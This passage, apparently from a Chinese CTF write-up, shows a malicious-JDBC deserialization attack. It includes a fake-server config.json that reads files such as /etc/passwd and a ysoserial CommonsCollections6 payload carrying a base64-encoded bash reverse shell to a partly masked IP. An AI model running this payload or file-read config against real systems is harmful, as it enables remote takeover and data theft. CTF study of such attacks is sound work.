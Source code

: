 [![](assets/1707954377-bee2315cba7fe7750079ca261670d7d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173738-08c458c2-c341-1.png)

可以参考[蓝帽杯 2022 决赛 – 赌怪 writeup](https://www.cnblogs.com/kingbridge/articles/16720318.html)打 JDBC

config.json 配置 ([ysoserial-all.jar](https://github.com/frohoff/ysoserial)和 server.py 放一起)，bash -c 后面替换成 base64 后反弹 shell 的 payload

```plain
{
        "config":{
            "ysoserialPath":"ysoserial-all.jar",
            "javaBinPath":"java",
            "fileOutputDir":"./fileOutput/",
            "displayFileContentOnScreen":true,
            "saveToFile":true
        },
        "fileread":{
            "win_ini":"c:\\windows\\win.ini",
            "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
            "win":"c:\\windows\\",
            "linux_passwd":"/etc/passwd",
            "linux_hosts":"/etc/hosts",
            "index_php":"index.php",
            "ssrf":"https://www.baidu.com/",
            "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
        },
        "yso":{
            "Jdk7u21":["Jdk7u21","calc"],
            "CommonsCollections6":["CommonCollections6","bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUueHgueHgueHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"]
        }
    }
```

攻击路径

```plain
/user/list?search=paylaod
```
